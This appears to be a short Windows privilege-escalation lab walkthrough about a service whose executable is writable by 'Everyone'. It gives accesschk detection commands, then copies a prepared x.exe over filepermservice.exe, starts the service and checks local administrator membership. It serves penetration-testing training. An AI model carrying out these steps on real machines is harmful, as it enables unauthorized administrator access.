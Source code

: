 # Escalation Path Executables files

**Detection**

Windows VM

Open command prompt and type: **C:\Users\User\Desktop\Tools\Accesschk\accesschk64.exe -wvu "C:\Program Files\File Permissions Service"  
**2. Notice that the “Everyone” user group has “FILE_ALL_ACCESS” permission on the filepermservice.exe file.

**Exploitation**

Windows VM

2. Open command prompt and type: **copy /y c:\Temp\x.exe "c:\Program Files\File Permissions Service\filepermservice.exe"  
**2. In command prompt type: **sc start filepermsvc  
**3. It is possible to confirm that the user was added to the local administrators group by typing the following in the command prompt: **net localgroup administrators**